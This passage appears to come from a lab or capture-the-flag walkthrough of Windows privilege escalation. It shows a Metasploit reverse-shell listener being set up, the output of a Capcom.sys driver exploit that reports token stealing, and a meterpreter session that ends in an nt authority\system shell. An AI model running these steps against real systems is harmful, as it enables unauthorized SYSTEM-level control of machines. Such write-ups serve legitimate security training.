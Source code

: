 Now that we have it loaded, we'll need to open a Metasploit listener:

```
$ msfconsole
$ use exploit/multi/handler
$ set LHOST tun0
$ set LPORT 1234
$ exploit -j
```

Finally, we'll run our exploit:

```
$ ./ExploitCapcom.exe
[*] Capcom.sys exploit                                                                                               
[*] Capcom.sys handle was obtained as 0000000000000064                                                               
[*] Shellcode was placed at 000002571D360008                                                                         
[+] Shellcode was executed                                                                                           
[+] Token stealing was successful                                                                                    
[+] The SYSTEM shell was launched                                                                                    
[*] Press any key to exit this program 
```

Now, we just catch our shell!

```
meterpreter > shell                                       
Process 4708 created.                                     
Channel 1 created.                                        
Microsoft Windows [Version 10.0.14393]                    
(c) 2016 Microsoft Corporation. All rights reserved.      
                                                          
C:\.tmp>whoami                                            
whoami                                                    
nt authority\system
```

Voila, we have a system level shell!


